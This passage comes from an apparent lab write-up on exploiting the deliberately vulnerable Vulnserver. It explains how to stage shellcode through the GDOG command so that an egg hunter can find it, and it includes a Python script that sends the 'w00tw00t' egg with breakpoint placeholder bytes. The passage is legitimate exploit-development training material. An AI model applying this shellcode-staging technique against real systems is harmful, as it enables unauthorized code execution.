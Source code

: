 If you scroll back to the start of the nopsled for the egg hunter code, you can see some of the nops get eaten / disappear. I do not really understand why this happens - you can see only one nop made it of the 4 I sent. If you know the answer  please ping me on twitter [@dunderhay](https://twitter.com/dunderhay). 

<img src="/assets/images/vulnserver/kstet/kstet-egghunter-unpacked.png" alt="kstet-egghunter-unpacked" width="900"/>

To test the egg hunter, we need to insert the egg into final shellcode code cave. We can use another command that will hold the final shellcode payload in meomry until the egg hunter code comes searching for it. The egg is repeated twice (`w00tw00t`) and inserted just before our final shellcode.

The __GDOG__ command is a perfect candicate as it has a large enough buffer space for our egg and final shellcode payload and has no additional restrictions on the buffer (requiring an ascii only payload etc).

```csharp
if (strncmp(RecvBuf, "GDOG ", 5) == 0) {				
    strncpy(GdogBuf, RecvBuf, 1024);
    SendResult = send( Client, "GDOG RUNNING\n", 13, 0 );
}
```

Insert the egg and final shellcode placeholder payload, it is a good idea to use breakpoint instructions (`CC`) as the exploit will pause in the debugger once the egg is located.

```python
#!/usr/bin/env python

import socket
import sys

egg = 'w00tw00t'
shellcode = '\xCC' * 1000
payload = egg + shellcode
command = 'GDOG '
data = command + payload

print '[*] Sending data: ' + command + egg + shellcode.encode('hex')
s = socket.create_connection(('192.168.185.146',9999))
s.sendall(data)
s.close()
```